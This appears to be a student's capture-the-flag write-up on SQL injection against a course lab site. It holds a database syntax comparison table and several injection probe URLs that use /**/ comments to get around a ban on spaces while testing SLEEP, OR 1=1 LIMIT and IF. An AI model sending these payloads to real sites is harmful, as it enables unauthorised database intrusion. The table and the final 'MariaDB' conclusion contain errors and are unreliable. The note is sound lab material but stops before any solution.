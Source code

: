 # CatHub v2 solution step by step


## Step 1. DB syntax comparison

DB Type | LIMIT  | IF     | SLEEP  | OR     | AND    | *      | +      | #      | /**/   | --     |
--------|:------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|
mySQL   |   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |
MSSQL   |  TOP   |   O    |  DELAY | O      |  O     |  O     | STRCAT | X      |   O    |  O    |
OracleDB|   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |
mySQL   |   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |

## Step 2 trial and error to determine DB type

### White space banned

`https://edu-ctf.csie.org:10159/video.php?vid=1%20SLEEP(3)` does not work (waf protection for space characters) --> bad cat!

### Check function

`https://edu-ctf.csie.org:10159/video.php?vid=1/**/SLEEP(3)` work --> error!: sleep unusable -> mySQL(X)

`https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/1=1/**/LIMIT/**/1,1` work --> error!: limit unusable --> mySQL(X)

`https://edu-ctf.csie.org:10159/video.php?vid=1/**/IF/**/1=1` work --> error!: if unusable

### Check comments

So sleep(X), --> it is MariaDB